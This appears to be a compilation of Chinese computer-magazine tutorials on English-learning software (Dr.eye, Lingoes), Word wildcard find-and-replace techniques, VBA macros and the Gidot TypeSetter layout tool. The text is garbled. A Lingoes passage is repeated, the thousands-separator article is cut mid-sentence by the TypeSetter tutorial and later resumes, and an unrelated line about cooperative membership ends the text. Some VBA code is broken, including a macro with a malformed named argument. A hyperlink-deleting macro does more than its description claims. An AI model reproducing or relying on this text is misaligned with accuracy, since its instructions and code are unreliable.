句型通用于常用句型的复习和测试。点击控制栏上的“句型通”图标按钮，即可打开句型通窗口。开启句型通窗口后，直接进入句型通复习方式。首先，在句型通窗口中点击“测试”按钮，打开句型通测试窗口。然后，在测试窗口中点击“级别”按钮，选择一个测试级别。按造句顺序点击备选英文单词，使之移动到答题区并连字成句。完成造句后，点击“判题”按钮。如果判断为错误，可点击“重做”按钮，重新组句；或点击“详解”，查看该题的正确答案和分析。

（2）语音通
启动Dr.eye语音通后，可以进入课件管理界面。课件管理界面显示了语音通软件中的所有课件分类及其所含课件，供选择训练或执行添加、删除等管理操作。课件管理界面左侧显示所有课件分类及其对应的操作按钮。课件管理界面右侧是课件列表区，显示所选听力库的课件列表（包括课件名称、长度、类型和位置）以及对应的七个操作按钮。此外，通过“添加课件”按钮可以在分类目录中加入一些课件。

点击语音通界面右上侧的三个按钮，可方便地进行复读训练、跟读训练和听写训练。复读训练主要用于提高听力技巧。要进入复读训练模式，在课件管理界面选择某一课件，双击这一课件或点击“播放课件”按钮。跟读训练主要用于提高听力和朗读技巧。在课件管理、复读训练和听写训练这些界面，都可以点击右上角的“跟读训练”按钮切换到跟读训练模式。听写训练主要用来提高听力和拼写技巧。

### 3. 借助网络词典全面提高英语能力

如今，动辄百兆的大型词典已经慢慢退出市场了。取而代之的则是一个个以网络为基础的小型工具。凭借高速的网络链接，这些体积很小的“小家伙”，在性能方面已经毫不逊色于从前的那些“大人物”了。目前，比较知名的词典工具有：灵格斯词霸、谷歌金山词霸、有道桌面词典、雅虎乐译等。

下面，以目前应用比较普遍的“灵格斯词霸”为例，对其写、译等功能进行介绍。之所以选择“灵格斯词霸”进行介绍，主要是因为该软件体积小，写译功能出色，而且完全免费。软件下载地址为：http://www.lingoes.cn。灵格斯词霸的安装很简单，直接点击“下一步”即可完成安装。软件界面为淡蓝色，紧凑中独具匠心。

（1）词典功能
灵格斯拥有当前主流商业词典软件的全部功能，创新地引入了跨语言内核设计及开放式的词典管理方案，同时还提供了大量语言词典和词汇表下载。目前，灵格斯词霸支持的互查互译语言种类超过80种，并支持汉英翻译、英汉翻译、英英词典、段落/全文翻译、实时输入提示、通配符查词、词汇识别、索引等功能。软件采用了开放式的词库管理，用户可以根据需要下载并安装词库，这些内容包罗万象，从牛津词典、例句搜索、网络释义到维基百科，应有尽有。

（2）全文翻译
灵格斯提供的文本翻译服务，集成了先进的文本翻译引擎，包括Systran、Promt、Cross、Yahoo、Google!以及Altavista等。用户可以自由选择它们来翻译文本，并能够对不同引擎的翻译结果进行比较。使用时，只要先将不熟悉的短句粘贴到搜索框，然后回车。这时，我们就能利用弹出的“全文翻译”对话框，实现方便的短句翻译了。如图18所示。

> 小知识
灵格斯的划词翻译和屏幕取词技术。通过创新的划词技术，灵格斯将屏幕取词、词典查询和智能翻译完全融为一体。用户只需将鼠标移动到屏幕中任何有单词的位置，按下取词键，灵格斯就能智能地识别出该单词的内容及其所属语言，即时显示出相应的翻译结果。



此外，在听写功能方面，灵格斯支持真人语音的单词及文本朗读。通过最新的真人发音引擎及TTS合成发音引擎，可以使用户掌握正确的单词发音，便于学习和记忆。

通过上面的实用技巧介绍，我们可以看到，通过多媒体辅助软件，可以在听、说、读、写等方面有的放矢，有针对性地提高某一方面的水平。在此基础上，通过一些综合性软件以及高质量的素材就能够逐步巩固和提高英语水平。这样，就能寓教于乐，真正体会到学习英语的快乐了。

### 对无序段落进行智能重排

◇ 文/王志军

很多时候，经过OCR（Optical Character Recognition, 光学字符识别）的文档，或者是从网络下载的文本，在Word打开后会出现大量无序的段落标记，这些多余的段落标记极大地干扰了正常的阅读和后期编辑工作，但如果纯粹依靠手工重排，既麻烦也容易出错……

其实，我们可以根据中文语言习惯对这些无序的段落进行重新处理，也就是说如果段落标记前面的一个标点符号是“。”、“…”、“？”、“！”、“ ”，那么基本上可以认为是合理的一个段落，否则将删除该段落标记而不予分段，当然最后仍然是需要人工校对的啦。

### 方法一：利用替换进行智能分段

将光标定位至文档的最前面，按下“Ctrl+H”组合键，打开“查找和替换→替换”对话框，单击“高级”按钮切换至高级替换模式，勾选“使用通配符”复选框，将查找内容设置为“([!。…？！”])^13”，这里的“([!。…？！”])”表示查找不以句号、省略号、问号、感叹号、右引号五种标点符号结尾的段落，对“替换为”设置为“\1”，这里的“\1”表示查找框中的第1组内容，也就是说删除段落标记而保存其前面的标点符号。

单击“全部替换”按钮，很快就可以完成智能分段的操作。

### 方法二：利用VBA宏代码进行智能分段

按下“Alt+F11”组合键，打开Microsoft Visual Basic编辑器窗口，插入一个模块，在右侧的模块窗格中手工输入如下代码：

```
Sub 智能分段1()
With ActiveDocument.Content.Find
.ClearFormatting '不限定查找格式
.MatchWildcards = True '使用通配符
.Text = "([!。…？！”])^13"
.Replacement.Text = "\1"
.Execute Replace:=wdReplaceAll '全部替换
End With
End Sub
Sub 智能分段2()
ActiveDocument.Content.Find.Execute findtext:="([!。…？！”])^13;",
MatchWildcards:=True, Format:=False, replacewith="\1",
Replace:=wdReplaceAll
End Sub
```

保存代码之后，依次执行“文件→关闭并返回到Microsoft Word”，按下“Alt+F8”组合键，打开“宏”对话框，单击右侧的“运行”按钮，很快可以获得智能分段之后的效果，感兴趣的朋友可以一试。

互查互译语言种类超过80种，并支持汉英翻译、英汉翻译、英英词典、段落/全文翻译、实时输入提示、通配符查词、词汇识别、索引等功能。软件采用了开放式的词库管理，用户可以根据需要下载并安装词库，这些内容包罗万象，从牛津词典、例句搜索、网络释义到维基百科，应有尽有。

（2）全文翻译
灵格斯提供的文本翻译服务，集成了先进的文本翻译引擎，包括Systran、Promt、Cross、Yahoo、Google!以及Altavista等。用户可以自由选择它们来翻译文本，并能够对不同引擎的翻译结果进行比较。使用时，只要先将不熟悉的短句粘贴到搜索框，然后回车。这时，我们就能利用弹出的“全文翻译”对话框，实现方便的短句翻译了。如图18所示。

> 小知识
灵格斯的划词翻译和屏幕取词技术。通过创新的划词技术，灵格斯将屏幕取词、词典查询和智能翻译完全融为一体。用户只需将鼠标移动到屏幕中任何有单词的位置，按下取词键，灵格斯就能智能地识别出该单词的内容及其所属语言，即时显示出相应的翻译结果。


此外，在听写功能方面，灵格斯支持真人语音的单词及文本朗读。通过最新的真人发音引擎及TTS合成发音引擎，可以使用户掌握正确的单词发音，便于学习和记忆。

通过上面的实用技巧介绍，我们可以看到，通过多媒体辅助软件，可以在听、说、读、写等方面有的放矢，有针对性地提高某一方面的水平。在此基础上，通过一些综合性软件以及高质量的素材就能够逐步巩固和提高英语水平。这样，就能寓教于乐，真正体会到学习英语的快乐了。

### 为Word文档中的金额数值设置千分位

◆文/王志军

日常工作中，经常会涉及财务金额的问题，例如图1所示的文档，如果现在需要将金额数值设置为千分位的格式，又该如何操作呢？



### 一、利用公式和域设置千分位

在录入数据时，我们可以手动输入半角逗号“,”对数字进行分隔，不过这种方法是既麻烦而又容易出错，其实我们可以通过“公式”对话框为数据设置千分位格式：
依次选择“表格→公式”，打开“公式”对话框，在“公式”下面的文本框中输入相应的数值，然后在“数字格式”下拉列表框中选择数字格式为“#,##0.00”，确认之后将在光标位置自动插入千分位格式的数字。

如果金额数值已经完成输入，我们也可以利用域来设置千分位格式，选中文档中的相应数值，按下“Ctrl+F9”组合键，此时Word会自动为所选内容添加一组域标记“{ }”，在光标处输入“=”，接下来将光标移至“}”的前面，手工输入“\#"#,##0.00"”，这里的“\#”被称为数字图片开关，用来指定结果中必须显示的数字位数，按下F9功能键即可得到相应的千分位数字格式（见图2）。对于文档中其他的金额数值，我们可以通过复制域结果的方式进行操作，然后按“Shift+F9”组合键，编辑域代码中的数字以快速输入其他数据的千分位格式。

小提示：
如果数值是整数，可以将域开关修改为“\#"#,##0"”。



### 二、利用查找和替换的方法设置千分位

事实上，我们可能需要为已经完成编辑的文档设置千分位格式，假如文档中的金额数值比较多，无论是使用公式还是域，显然是相当麻烦的。这种情况下，我们可以利用查找替换的方法来实现，具体步骤如下：

第1步：按下“Ctrl+H”组合键打开“查找和替换→替换”对话框，单击“高级”按钮切换至高级替换模式，勾选“使用通配符”复选框，由于文档中的金额数值位数最高为7位，因此我们将查找内容设置为“([0-9])([0-9]{3})([0-9]{3})”，使用“()”将数值分成3组，第1组为7位数和最后一位数字，第2组为7位数字的前3位数字，第3组为7位数字的后3位数字；将“替换为”设置为“\1,\2,\3”，分别对应查找框中的各组内容。

单击“全部替换”按钮，很快就可以完成替换（见图3）。

| 查找内容(N)                 | 替换为(I) |
|-----------------------------|-----------|
| ([0-9])([0-9]{3})([0-9]{3}) | \1,\2,\3  |

第2步：不要关闭替换框，将查找内容更改为“([0-9]{3})([0-9]{3})”，“替换为”更改为“\1,\2”，再次进行替换操作，如果文档中有其他位数的金额数值，可以按照类似的方法继续替换。

### 三、利用宏代码进行设置

实际操作时，金额数值位数可能并不相同，而且会分布...## 文字排版“自动化”——Gidot TypeSetter 3.03使用教程

拥有丰富资源的网络日益成为广大网民朋友查找信息的首选，然而在网络上搜索而来的信息并不总是能轻松地为我所用。一个令人比较头疼的问题是：将从网上拷贝而来的文字重新排版实在是太麻烦了。文中不仅有多处空行、空段，还会有许多火星文字般的格式符，人工排版非常困难。有没有一种软件能够实现对从网上拷贝来的文字自动排版呢？

答案是肯定的。下面就为大家介绍一款功能强大的文章自动排版软件——Gidot TypeSetter 3.03。这是一款广受编辑追捧的智能排版和整理文章的软件，该软件短小精悍，无须安装即可使用，而且功能强大，只需轻点鼠标设置选项，即可轻松搞定段落重排、字体转换、乱码更正等诸多排版任务。同时该软件终身免费，100%绿色纯净，无须安装，不读写注册表，不捆绑软件和恶意广告，完全可以放心使用。

下面就让我们开始一起学习GT的使用吧！
◆文/TMG lk

## 下载与试用Gidot TypeSetter 3.03

下载地址：http://www.onlinedown.net/soft/62784.htm。

下载完成后，解压缩文件，打开Gidot TypeSetter 3.03文件夹，可以看到一个“测试文本”文件夹和“更新说明.txt”及Gidot_TypeSetter 3.03.exe两个文件。“测试文本”文件夹中是为软件测试准备的三个txt文件，“更新说明”是对软件当前版本的改进说明。双击Gidot_TypeSetter 3.03.exe程序即可直接打开Gidot_TypeSetter 3.03主界面（如图）。



在文档的各处，如果重复使用替换操作的话，可能会相当的麻烦。此时，我们可以利用宏代码来完成，按下“Alt+F11”组合键打开Microsoft Visual Basic编辑器窗口，插入一个模块，然后手工输入如下代码，这里的宏名可以任意设置：

```
Sub 设置千分位格式()
Dim myRange As Range, myValue As Double
Application.ScreenUpdating = False '关闭屏幕更新,加快程序运行
Do '进入一个循环
    '定义myRange为活动文档的主文字部分
    Set myRange = ActiveDocument.Content
    With myRange.Find '查找设置
        .ClearFormatting '清除格式
        .Text = "[0-9]{4,}[.][元]" '查找四个以上的数字且其后为元的内容，即只查找金额数值
        .MatchWildcards = True '使用通配符
        If .Execute = False Then Exit Do '如果未找到则退出循环
        myValue = Val(myRange.Text) '取得数字
        myRange.SetRange myRange.Start, myRange.End - 1 '重新定义myRange对象
        myRange.Text = VBA.Format$(myValue, "#,##0") '写入千分位格式
    End With
Loop
Application.ScreenUpdating = True '恢复屏幕更新
End Sub
```

保存代码后，依次执行“文件→关闭并返回到Microsoft Word”，按下“Alt+F8”组合键打开“宏”对话框，单击右侧的“运行”按钮，很快就可以获得图4所示的效果，是不是很方便？

> 各位员工：
>
> 经财务部统计，本公司2008年9月账面显示的各项收入共计2,861,782.58元，各项支出共计192,443.18元，结余2,669,339.4元，与去年同期增加148,766.53元。
>
> 集团办公室

## Gidot TypeSetter 3.03的操作与应用

### 1. 系统设置

在使用Gidot TypeSetter 3.03前，我们首先要对该软件进行必要的设置。

**快捷键设置：**

打开“开始排版”菜单，包括“执行”、“一键排版”、“复制即排版”。单击“执行”菜单项即执行排版命令，F5是该命令的快捷键。“一键排版”和“复制即排版”菜单项在默认状态下是没有选中的。单击“一键排版”菜单项则会选中，同时弹出快捷键（Alt+Q）提示对话框。单击选中“复制即排版”菜单项则开启复制即排版功能，同时功能快捷栏（下）中的“排版后剪切”“复制即排版”选项同时选中。

**字体设置：**

打开“文件”菜单，单击“字体”菜单项会弹出“字体”对话框，用户可以根据自己的喜好在该对话框中完成字形、字体及大小、颜色、效果等的设置，主窗口将按照设置的字体要求显示文章。需要指出的是，每次打开Gidot TypeSetter 3.03，“字体”对话框都会恢复为默认设置。

**排版设置：**

打开“排版需求”菜单，其中包括四组共九项菜单项。

- 删除首尾空格：排版时删除段落首尾空格。
- 增加段首空格：排版时在每段文字开头增加空格，类似于Word中的“首行缩进”功能。若选中功能快捷栏（上）的修正空格选项，则删除首尾空格与增加段首空格项同时自动选中。
- 全角转换成半角：排版后全角字符转换为半角字符。
- 半角转换成全角：排版后半角字符转换为全角字符。
- 删除空段落：排版时删除空白段落。
- 双换行/三换行：排版后段落间距分别为两行/三行，功能快捷栏（上）的修正换行选项也可以设置段落间距。
- 智能重排段落：根据段落长短，对段落进行重新组合，若选中功能快捷栏（上）的“删除非段落换行”选项，则智能重排段落菜单项自动选中。
- 统一成繁体字：排版后文字统一以繁体字显示。
- 统一成简体字：排版后文字统一以简体字显示。

打开“特殊需求”菜单，其中包括三组共六项菜单项。

- 去段尾干扰符（半角字符串）：在排版中清除段尾的半角字符串。
- 去段首干扰符（半角字符串）：在排版中清除段首的半角字符串，若选中功能快捷栏（上）的“修正干扰符”选项，则去段尾干扰符与去段首干扰符菜单项同时自动选中。
- 排版后最小化窗口：排版后自动最小化软件窗口。
- 按回车键缩进换行：不选择此项则按下回车键时顶格换行。
- 快速隐匿编辑内容（再按则恢复）：该菜单项的快捷键是Ctrl+M，选择该菜单项时，主窗口立即隐匿当前编辑文本，并显示另一篇预置文章，再次选择该菜单项则恢复显示。
- 自动添加首尾签名：排版后在文章首尾自动添加签名，首次使用时需要设置签名内容，该菜单项也可通过选中功能快捷栏（上）中的“启用首尾签名”进行选中。

打开“自动拷贝”菜单，其中包括两项菜单项。

- 排版后拷贝：排版后自动将排版内容拷贝到剪贴板。
- 排版后剪切：排版后自动将排版内容剪切到剪贴板。

### 2. 排版操作

**段落重排一键完成：**

从网上下载来的文字通常会有很多空行空段，段首段尾也会存在许多不必要的空格。有些网站为了防止他人随意拷贝文章，特意使用了隐藏的无规律字符，即乱码，同时从网上下载的文章在标点符号的使用上也不符合正常文本的格式要求。

现在我们可以通过Gidot TypeSetter 3.03，将上述种种问题轻松搞定。首先我们对Gidot TypeSetter 3.03进行设置：勾选功能快捷栏（上）左侧“修正空格、修正换行、修正干扰符”前面的复选框；然后把需要排版的文字拷贝到Gidot TypeSetter 3.03主窗口，单击工具栏上的“排版”按钮，或执行“开始排版”菜单下的“执行”命令，或按下F5快捷键，无论原来的版式多么杂乱无章，一篇干净整洁、版式正规的文字都会立刻出现在你面前。

**复制排版同时完成：**

对于很多人来说，排版并不是目的。倘若我们想把从网上拷贝的资料粘贴到自己正在编辑的文本中，我们可以先将资料拷贝到Gidot TypeSetter 3.03中进行排版，再将排版过的文字拷贝到自己的文本中。然而如此一来排版就成了影响工作效率的中间步骤。为此我们可以在Gidot TypeSetter 3.03中进行简单设置，将复制排版同时完成。

首先打开“字体”对话框，按照自己编辑文本的字体格式进行设置，单击“确定”按钮关闭对话框；然后勾选功能快捷栏（上）左侧“修正空格、修正换行、修正干扰符”前面的复选框；最后选中功能快捷栏（下）右侧的“复制即排版”选项。现在当我们复制一篇文章时，Gidot TypeSetter 3.03会立即自动按照预定的格式对复制文字进行排版，同时将排版后的文字送到剪贴板，直接使用“粘贴”命令就可以将排版好的文字拷贝到我们需要的地方。

除此之外，Gidot TypeSetter 3.03还可以轻松完成诸如简繁字体转换、自动签名等任务。只需将文字拷贝到软件主窗口，同时进行相应的设置，如把简体字转换成繁体字时勾选功能快捷栏（下）左侧繁体字复选框，自动签名时勾选功能快捷栏（上）的启用首尾签名复选框，点击“排版”即可实现要求。当然，上述操作也可以同时完成。

### 3. 其他工具

除了能够完成上述功能外，Gidot TypeSetter 3.03还提供在线服务，能够随时解决你的问题。

点击打开“关于”菜单，在这里我们能够使用Gidot TypeSetter 3.03提供的周到的在线服务：获得关于Gidot TypeSetter的最新信息、访问官方网站、联网时检查最新版本、参与排版软件的讨论。此外，“恢复默认配置”菜单项还可以帮助我们快速恢复软件的默认设置。

## Word 2007还可以这样替换

◆文/王志军

在2008合订本（上）中，我们介绍了Word 2007的高级替换技巧，这里再介绍几个比较实用的替换技巧：

### 实例一：批量替换文档中的数字句号

我们经常会有这样的尴尬事情：当需要处理某篇文档时，却发现由于某些原因，文档中涉及数字之处竟然将原本应该为英文句点的符号全部写成了中文的句号，例如下面的这段文字：
祖冲之是中国古代著名的数学家，他计算出的圆周率是3。1415926。这真是了不起的成就。你知道3。14的立方约等于30。959吗？
手工更改文档中的中文句号显然不是什么好办法，毕竟文档中可能还会涉及很多类似的数字。这里我们可以采取替换的方法来完成，具体步骤如下：
第1步：按下“Ctrl+H”组合键打开“查找和替换”对话框，切换到“替换”选项卡，单击“更多”按钮切换到高级替换模式，在这里勾选“使用通配符”复选框；
第2步：在“查找内容”文本框中输入“([0-9]{1,})。([0-9]{1,})”，这里的“[0-9]”表示任意的单个数字，“{1,}”表示1个以上前一字符，中间的“。”表示中文的句号，后面的含义类似，表示查找所有以数字加句号的数字部分的内容，在“替换为”文本框中输入“\1.\2”，这里的“\1”和“\2”分别代表小数点前面和后面的字符串，当然其中的“。”必须输入“.”；
第3步：单击“全部替换”按钮，很快就可以获得图1所示的结果，是不是很简单呢？



### 实例二：自动替换文档中的英文格式

很多时候，我们编辑的Word文档中都是中英文混合，而英文一般都是采用斜体，虽然我们没有办法在输入英文时自动采用斜体的格式，但在输入完成之后，却是可以通过“替换”的方法来实现。
第1步：按下“Ctrl+H”组合键，此时会打开“查找和替换→替换”对话框，单击“更多”按钮切换到高级替换模式，这是为了设置格式的需要；
第2步：在“查找内容”后面的文本框中输入“[a-z,A-Z]”，这里的“[a-z,A-Z]”代表了所有的小写和大写英文字符，当然是一网打尽了；
第3步：将光标定位在“替换为”后面的文本框中，单击“格式”按钮，从下拉菜单中选择“字体”，然后在随后打开的对话框中设置西文字体，并设置字形为“倾斜”，确认后返回“查找和替换”对话框；
现在的工作就简单多了，如图2所示，在这里勾选“使用通配符”复选框，然后单击“全部替换”按钮，确认后即可将文档中的所有英文字符设置为斜体格式，而且丝毫不影响文档中的中文字符，是不是很简单？



### 实例三：删除无用的段落标志

很多朋友都会经常从网络下载自己所需要的资源，不过有时由于种种原因，也会出现一些意想不到的尴尬事情。例如图3所示的这篇文章，从网页复制到Word之后，竟然出现了许多根本就不需要的段落标志，由于文档的篇幅比较长，手工删除显然不是办法，那么怎样才能批量删除这些段落标志呢？
如果只是不希望显示这些段落标记，那么可以通过设置来实现，例如Word 2007可以打开“Word选项”窗口，选择“显示”标签页，在右侧“始终在屏幕上显示这些格式标记”小节下取消“段落标记”的选中状态，确认后即可让这些标志隐藏起来。
不过，这始终是治标不治本，毕竟这里还是出现一些非常难看的空格，因此还是将其删除为好。按下“Ctrl+H”组合键，打开“查找和替换→替换”对话框，单击“更多”按钮切换到高级替换模式，将查找内容设置为“段落标记”，或者直接输入“^P”，接下来将“替换为”设置为空，即什么也不输入，注意这里不要选中“使用通配符”的复选框，最后只要单击“全部替换”按钮就可以了，效果如图4所示。


当然，出于美观的考虑，我们可能还需要再次执行替换操作，这一次是将每段开始前的空格替换为“段落标记”，查找内容可以设置为“空白区域”，然后全部替换即可。

### 实例四：删除文档中的重复段落

由于某些原因，Word文档中恐怕会出现一些重复的段落，如果文档的篇幅不大，那么手工检查后删除这些重复的段落就可以了。不过，假如需要处理的文档比较大，那么刚才的方法就不是很合适，有没有办法实现批量删除呢？这里，我们可以利用替换的方法来完成，具体步骤如下：

1. 第1步：按下“Ctrl+A”组合键，选中文档中的所有内容，然后按下“Ctrl+H”组合键，打开“查找和替换→替换”对话框，指定“查找内容”为“^p^p”，“替换为”为“^p”，这一步骤的目的是去除文档中多余的空行，这样可以方便后续的处理工作。接下来单击“全部替换”按钮，很快就可以去除文档中的多余空行。
2. 第2步：接下来，请单击“更多”按钮切换到高级替换模式，然后勾选“使用通配符”的复选框。按下“Ctrl+Home”组合键，将光标定位到文档的最前端，或者按下“Ctrl+A”组合键选中文档中的所有内容；这是因为Word查找时默认是从当前光标处开始查找。
3. 第3步：继续打开“查找和替换→替换”对话框，将“查找内容”设置为“^13( ?{1,}^13)*\1”，这里的“^13”仍然表示段落标记，这是勾选“使用通配符”复选框之后段落标记的写法；“替换为”设置为“^13\1”，“\1”表示前面提到的表达式，然后单击“全部替换”按钮，很快会完成相关的替换操作（见图5）。

重复上述步骤，替换数次，文档中的所有重复段落就可以删除干净了。如果你正好有这方面的需要，不妨按照本文所述的方法一试，但如果文档中的页码太多，机器配置又比较低，那么可能会需要相当长的时间，可要有耐心哟。

补充：前面提到的方法比较一般，如果文档中的重复段落恰好是连续的，那么可以将“查找内容”指定为“(?{1,}^13)\1”，“替换为”设置为“\1”。

### 实例五：删除试卷中的多余括号

试卷中的选择题，一般都会在题目的末尾附加相应的括号，主要是供考生填写答案之用。不过，可能你会需要剔除这些多余的括号，而保留题目中的括号，例如图6所示的试卷，该如何才能将“……”后面圆括号剔除呢？


手工剔除自然可行，但总是比较麻烦，其实我们可以利用Word的“替换”功能解决这个问题。这里以Word 2007为例进行说明，按下“Ctrl+H”组合键，打开替换对话框，首先单击“更多”按钮切换到高级替换模式，在“查找内容”文本框中输入“[(\?。)][(（][^32]{1,}[）])]”，“替换为”输入“\1”，当然不要忘记勾选“使用通配符”复选框，然后单击“全部替换”按钮，很快就可以替换成功（见图7），是不是很简单？


在这里单击“自动更正选项”按钮。

### 实例六：快速替换上、下标格式

很多时候，我们都需要在文档中输入上、下标，例如mm²、CO₂、Fe₃C，虽然Word 2007直接在“开始”选项卡的“字体”功能组中提供了上标、下标的功能按钮，使用时只需要单击此按钮即可，也可以分别按下“Ctrl”、“Shift”、“+”或“Ctrl”、“=”组合键，但始终不是那么方便……其实，我们可以利用Word的自动更正功能来实现上、下标格式的快速替换，Word 2003/2007都有类似的功能，设置之后只需要直接输入字符和数字，至于上标和下标的问题则完全不需要考虑，绝对是方便许多。

1. 第1步：首先，请新建一个Word文档，手工输入，设置好相应的上、下标格式，这一步骤自然不用多作介绍。
2. 第2步：选中“mm2”，单击Office按钮，选择“Word选项”打开“Word选项”对话框，切换到“校对”选项卡，在这里单击“自动更正选项”按钮。
3. 第3步：当我们看到“自动更正：英语(美国)→自动更正”的对话框之后，请将“替换为”设置为“带格式文本”（这一点务必请注意，否则不会看到上下标格式的效果），此时应该可以看到“替换为”下面的文本框中已经出现了“mm2”的内容，现在你只需要在“替换”下面的文本框中手工输入“mm2”，请注意这里直接输入即可。
4. 第4步：单击“添加”按钮，如图8所示，使刚才设置的自动更正项目出现在下面的列表框中。按照类似的步骤可以继续添加其他的上、下标格式。

现在，我们就可以在Word 2007文档中直接输入mm2、CO2、Fe3C，不需要分别设置上、下标，在按下空格键或敲入下一字符之后，Word 2007会自动完成替换格式的操作，是不是很简单？这里需要说明的是，请注意大、小写的区别。



### 实例七 替换代码为汉字

手头有一个文本文件，如图9所示，其中有许多以Unicode码表示的代码，每个代码分别代表一个汉字，例如“A13A”对应“00E0”，表示“可”，但这样的代码数量极大，如果纯粹依靠手工替换的话，工作量实在是非常巨大。不过，手头还有一个名为“对照表.txt”的文本文件，那么可否利用批量替换来完成这一任务呢？



第1步：由于记事本的处理功能比较有限，因此建议还是在Word中完成批量替换。按下“Ctrl+A”组合键，选中“文本”文件中的所有内容，将其复制到Word中进行处理，同时也请在Word中打开“对照表.txt”这个文件。

第2步：按下“Alt+F11”组合键，打开Microsoft Visual Basic编辑器窗口，在右侧窗格中手工输入如下代码，请根据实际情况修改“对照表.txt”文件的绝对路径，保存后依次执行“文件→关闭并返回到Microsoft Word”窗口。

```
Sub test()
    '将“文本.txt”内容复制粘贴到新文档（活动文档）中后运行本程序
    '引用MS VBSCRIPT REGULAR EXPRESSIONS 5.5
    Dim oDoc As Document, mytext As String, otext() As String, i As Long, myRegExp As New RegExp
    Application.ScreenUpdating = False
    mytext = ActiveDocument.Content.Text
    Set oDoc = Documents.Open(FileName:="c:\对照表.txt", Format:=wdOpenFormatText) '“对照表.txt”也借助word打开
    otext() = VBA.Split(oDoc.Content.Text, vbCrLf)
    For i = 0 To UBound(otext)
        With myRegExp
            .Pattern = "\[" & VBA.Split(otext(i), vbTab)(0) & "\]"
            .Global = True
            .IgnoreCase = True
            mytext = .Replace(mytext, VBA.ChrW(CLng("&H" & Mid(Split(otext(i), vbTab)(1), 2))))
        End With
    Next
    Documents.Add.Content = mytext '新建文档内容即为处理结果
    Application.ScreenUpdating = True
End Sub
```

第3步：按下“Alt+F8”组合键，此时会弹出“宏”对话框，单击右侧的“运行”按钮，稍候片刻，很快就可以完成批量替换的操作，感兴趣的朋友不妨一试。

### 实例八 删除文档中固定大小的图片

前几日，从网上下载了一篇16页的Word文档，内容非常实用，但文档中却处处包含着网站链接的Logo图片，其大小都是0.9×11.75，不仅页眉和页脚中有此图片，文档中竟然也不时地跳出这些图片，假如只是此图片倒也罢了，可惜文档中还包含了其他一些不允许删除的图片（见图10），该怎么办呢？

通常的方法是利用“查找和替换”来实现这个任务，按下“Ctrl+H”组合键，打开“查找和替换→替换”对话框，单击“更多”按钮切换到高级替换模式，将光标定位在“查找内容”后面的文本框中，从“特殊格式”下拉菜单中选择“图形”，或者直接输入“^g”也可以，“替换为”当然是设置为空，最后单击“全部替换”按钮，执行后可以将文档中的图片清除干净，但这样却将有用的图片也顺带着清除，这显然是不行的。

其实，由于这些Logo图片中包含了该网站地址的超级链接，因此我们可以利用VBA代码来批量删除文档中固定大小的图片。按下“Alt+F11”组合键，此时会打开Microsoft Visual Basic编辑器窗口，插入一个模块，在右侧窗格中手工输入下列代码：

```
Sub logo()
    Dim h As Hyperlink
    For Each h In ActiveDocument.Hyperlinks
        h.Range.Delete
    Next
End Sub
```

单击工具栏上的保存按钮，依次执行“文件→关闭并返回到Microsoft Word窗口”，按下“Alt+F8”组合键，此时会打开“宏”对话框，单击右侧的“执行”按钮，执行完成后很快就可以将文档中的Logo图片删除干净，至于页眉、页脚处的Logo图片，直接双击进入页眉、页脚编辑区域，按下Backspace或Delete键即可清除，最终效果如图11所示。



## 办公应用解决方案

### 实例9：批量更改图片位置

实际工作中，我们经常需要向Word文档中插入相应的配图，这样可以进一步增强文档的说服力。大部分情况下，文档中的配图一般总是放在居中的位置，不过假如需要让这些配图转移到页面的左侧或右侧，这又该如何操作呢？如果逐个手工调整的话，确实也是太麻烦了……

其实，我们可以利用“替换”功能来实现。具体操作步骤如下：

第1步：将光标定位在文档的最前端，按下“Ctrl+H”组合键，或者也可以单击“开始”选项卡“编辑”功能组中的“替换”按钮，此时会打开“查找和替换→替换”对话框，首先单击“更多”按钮切换至高级替换模式。

第2步：将光标定位在“查找内容”后面的文本框中，从对话框底部的“特殊格式”按钮，从下拉菜单中选择“图形”，或者直接手工输入“^g”，这表示查找的对象是图形。

第3步：将光标定位在“替换为”后面的文本框中，单击对话框底部的“格式”按钮，从下拉菜单中选择“图文框”，此时会打开“替换图文框”对话框，在这里的“水平位置”下拉列表框中选择“左侧”或“右侧”，注意请同时将环绕位置设置为“无”，否则替换之后会出现文字环绕的效果，这就不是我们的本意了。

完成上述操作之后，关闭“替换图文框”对话框返回“查找和替换→替换”对话框，可以看到“替换为”下面的格式设置为“水平，左侧，不换行”，如果确认无误，就可以单击“全部替换”按钮，如图12所示，很快就可以将文档中的所有图片位置更改过来。



### 实例10：批量添加千位分隔符

相信绝大多数朋友自然是使用Word处理文档，如果你需要为文档中的数字添加千位分隔符，例如将“12345”更改为“12,345”，假如这类数字不太多的话，那么手工添加即可。但假如需要添加千位分隔符的数字很多，手工操作自然不是一件容易的事情，不仅容易出错，而且也可能遗漏……

有些朋友可能会说，将数字复制到Excel中，这里可以很方便地添加千位分隔符，然后再将其复制回Word，不就可以了吗？但如果这类数字分散在文档中的各个位置，那么刚才的方法就行不通了。其实，我们可以利用Word的“替换”功能来实现：

第1步：为了说明问题的方便，这里提供的示例文件中的数字都是连续的（见图13），实际操作时这些数字当然是会被分散到文档的各位。手工添加千位分隔符自然不在考虑之列。按下“Ctrl+H”组合键，此时会打开“查找和替换→替换”对话框，单击“更多”按钮切换到高级替换模式。

第2步：光标定位至“查找内容”后面的文本框中，手工输入“([0-9]{2,2})([0-9]{3,3})”，这里的“[0-9]”表示任意数字，“{2,2}”表示两位数字，“{3,3}”则表示三位数字，之所以如此写，是因为需要处理的数据均为五位数字，而千位分隔符则是分布在第二位数字的后面，我们是将这五位数字分成两位数字、三位数字前后两个部分。


第3步：将“替换为”内容设置为“\1,\2”，这里的“\1”表示要查找的第一个表达式，即“([0-9]{2,2})”，“\2”表示要查找的第二个表达式即“([0-9]{3,3})”，勾选“使用通配符”复选框，最后单击“全部替换”按钮，很快就可以完成千位分隔符的批量添加，效果如图14所示，是不是很方便？



最后要指出的是，如果数字的位数与本例不同，那么请根据实际情况进行更改。

### 实例11：替换文档中的句号

手头有一篇Word文档，其中涉及到相关的数据和百分比，由于原录入人员的失误，百分比的“.”均被写成了中文标点中的句号“。”，如图15所示，这样看起来就比较碍眼了。虽然可以通过手工的方法进行修正，但一来是比较麻烦，二来也容易遗漏，那么有没有更好的办法呢？

其实，我们可以利用Word的“替换”功能来完成，具体步骤如下：

第1步：按下“Ctrl+H”组合键，打开“查找和替换→替换”对话框，首先单击“更多”按钮切换到高级替换模式，将“查找内容”设置为“([0-9]@)。([0-9]@)”，这里的“[0-9]”表示任意数字，“@”表示1个以上前一字符或表达式，即代表不限制位数。

“。”自然是用来替换“。”。

年内发展社员7人，调出1人，至年末共有社员31人
